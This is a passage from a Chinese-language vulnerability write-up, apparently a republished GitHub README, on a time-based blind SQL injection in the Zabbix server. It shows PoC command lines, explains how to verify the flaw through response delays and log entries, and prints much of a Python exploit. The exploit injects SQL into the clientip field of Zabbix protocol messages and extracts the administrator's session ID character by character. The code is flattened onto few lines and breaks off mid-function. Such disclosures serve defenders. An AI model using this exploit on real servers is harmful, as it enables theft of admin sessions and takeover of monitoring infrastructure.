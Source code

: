 python zabbix_server_time_based_blind_sqli.py
LOG_LEVEL=error --ip 192.168.19.142 --sid a6094b4f052fd133adc335382f0297f6
--hostid 10607 --poc  
  
在这个PoC过程中，你将会观察到以下特点：  
  
·  
发送3个请求。  
  
·  
后端服务器分别在响应前延迟1秒、5秒和10秒。  
  
·  
通过请求与响应的包，你可以明确地看到后端的延迟发生，这是验证基于时间的盲注的有效性。这种延迟证明了SQL查询执行时间被人为控制，是SQL注入存在的直接证据。  
### 1.5.3第三种方法 - 日志验证PoC  
  
准备一个简单的SQL注入payload，设计为在日志文件中留下特定痕迹。  
  
触发脚本执行，确保payload包含在请求中。检查zabbix_server.log文件，寻找与注入payload相关的记录，间接证明了SQL注入的可能性。  
  
1.  
执行第一种方法中的1-3步（提取低权限用户sessionid和任何可用的hostid）  
  
2.  
执行漏洞利用（将ip、sessionid和hostid替换为你之前步骤中得到的）  
  
python3 zabbix_server_time_based_blind_sqli.py
LOG_LEVEL=error --ip 192.168.223.128 --sid a6094b4f052fd133adc335382f0297f6
--hostid 10607 --poc2  
  
检查zabbix_server.log日志，你会看到查询失败了，但已注入了 ' +
version() + ' ，并且其结果正确地显示在了位置上。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEkGwiaH6wicq47AmTL4icuWQwIzk5tcMXZ4S3IduehpbKxSqIgBLUtUx5icwUgybnrEH5NKdIzAfNOeQ/640?wx_fmt=png&from=appmsg "")  
  
zabbix_server_time_based_blind_sqli.py源代码如下：  
  
#!/usr/bin/python3import jsonimport argparseimport pwnlib.contextfrom pwn import *from datetime import datetimedef send_message(ip, port, sid, hostid, injection): zbx_header =
"ZBXD\x01".encode()    #query    # insert into auditlog (auditid,userid,username,clock,action,ip,resourceid,"    #                  "resourcename,resourcetype,recordsetid,details)
values ('%s'," ZBX_FS_UI64 ",'%s',%d,'%d','%s',"    #                  ZBX_FS_UI64
",'%s',%d,'%s','%s')    #    message = {        "request":
"command",        "sid": sid,        "scriptid":
"3",        "clientip": "' +
" + injection + "+ '",        "hostid": hostid    }    message_json = json.dumps(message)    #print("message=%s" %
message)    message_length = struct.pack('<q',
len(message_json))    message = zbx_header + message_length
+ message_json.encode()    #print("Sending message %s"
% message)    r = remote(ip, port, level='debug')    r.send(message)    response = r.recv(100)    r.close()    #print(response)def extract_admin_session_id(ip, port, sid, hostid, time_false, time_true):    session_id = ""    token_length = 32    for i in range(1, token_length+1):        for c in string.digits +
"abcdef":            print("\n(+) trying
c=%s" % c, end="", flush=True)            before_query =
datetime.now().timestamp()            query = "(select CASE
WHEN (ascii(substr((select sessionid from sessions where userid=1),%d,1))=%d)
THEN sleep(%d) ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)            send_message(ip, port, sid,
hostid, query)            after_query =
datetime.now().timestamp()            if time_true >
(after_query-before_query) > time_false:                continue            else:                session_id += c                print("(+)
session_id=%s" % session_id, end="", flush=True)                break    print("\n")    return session_iddef extract_config_session_key(ip, port, sid, hostid, time_false, time_true):    token = ""    token_length = 32    for i in range(1, token_length+1):        for c in string.digits +
"abcdef":            print("\n(+) trying